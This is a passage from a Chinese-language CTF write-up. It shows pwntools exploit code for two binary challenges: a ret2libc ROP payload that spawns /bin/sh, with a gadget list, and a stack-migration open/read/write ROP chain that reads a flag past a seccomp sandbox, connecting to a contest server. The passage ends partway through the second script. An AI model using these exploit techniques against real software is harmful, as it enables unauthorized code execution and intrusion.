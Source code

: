 ```python
printf_addr=base+libc.symbols['printf']
sh=base+next(libc.search(b'/bin/sh'))
 
pause()
payload=b'a'*0x10+p64(pop_rdi)+p64(sh)+p64(system_addr)+p64(vuln)
p.sendlineafter('voice :',payload)
 
p.interactive()
 
# 0x000000000040129c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040129e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004012a0 : pop r14 ; pop r15 ; ret
# 0x00000000004012a2 : pop r15 ; ret
# 0x000000000040129b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040129f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x000000000040115d : pop rbp ; ret
# 0x00000000004012a3 : pop rdi ; ret
# 0x00000000004012a1 : pop rsi ; pop r15 ; ret
# 0x000000000040129d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret
```
### Stack_Migration
字面意思，栈可以到处跑
正常审题程序不再罗列（checksec、IDA看字符串啥的）。
IDA中发现有沙箱
![](https://zcoi.github.io/blogs/CTF/monthgame2310/1dis1.png)
![](https://zcoi.github.io/blogs/CTF/monthgame2310/1seccomp.png)
依旧是发现栈溢出。
![](https://zcoi.github.io/blogs/CTF/monthgame2310/1dis2.png)
考虑到没法直接执行shellcode，因此只能构建ROP链。实现以下功能：
```c
char*file='flag';
open(file,0,0);
read(3,file,0x30);
write(1,file,0x30);
```
这里把存储flag文件的名称和栈迁移之后的ROP链一起读入到bss那里。毕竟空间充足。
```python
from pwn import*
context(arch='amd64',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')
p=remote('8.130.110.158',2109)
# p=process('./pwn')
# p=process(['./ld-2.31.so', './pwn'], env={"LD_PRELOAD":'./libc-2.31.so'})
# gdb.attach(p)
 
bss_st=0x4040A0
bss_tar=0x4040A0+0x200
flag_name=0x4040a0+0x200-8
flag_addr=bss_st+0x300-0x40
 
pop_rdi=0x401373
pop_rsi2=0x401371
leave=0x4012e6
 
func_addr=elf.got['read']
write_addr=elf.plt['write']
read_addr=elf.plt['read']
```